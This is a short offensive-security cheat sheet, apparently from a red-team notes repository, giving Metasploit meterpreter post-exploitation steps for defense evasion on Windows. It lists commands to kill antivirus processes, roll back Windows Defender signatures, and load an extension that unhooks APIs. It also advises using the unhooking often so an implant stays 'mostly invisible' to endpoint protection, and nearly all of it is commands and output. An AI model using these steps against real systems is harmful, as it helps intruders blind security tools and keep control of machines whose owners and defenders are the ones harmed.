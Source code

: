 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - security-endpoints
  - coff-loader
  - metasploit-framework
---
```

#  Metasploit

## 01 - Disable Endpoints

```
meterpreter > run post/windows/manage/killav
```

## 02 - Remove Definitions

```
meterpreter > run post/windows/manage/rollback_defender_signatures action=rollback
```

## 03 - Unhook APIs

> [!INFO]
> This will make your implant mostly invisible from most endpoint solutions. Use this technique often when executing offensive tools in the memory.

Load the extension.

```
meterpreter > load peinjector

..[omitted]..
Unhook Commands
===============

    Command       Description
    -------       -----------
    unhook_pe     Unhook the current process
```

Unhook runtime.

```
meterpreter > unhook_pe
[+] Command execution completed:
[0, 0, nil]
```